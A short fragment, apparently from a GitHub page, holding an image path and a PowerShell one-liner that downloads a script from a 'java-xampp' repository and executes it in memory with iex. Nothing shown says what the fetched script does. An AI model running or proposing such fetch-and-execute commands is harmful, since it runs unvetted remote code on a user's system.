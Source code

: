 # powershell -nop -c " iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/Paneerdev/java-xampp/main/scriptimp.ps1'))"
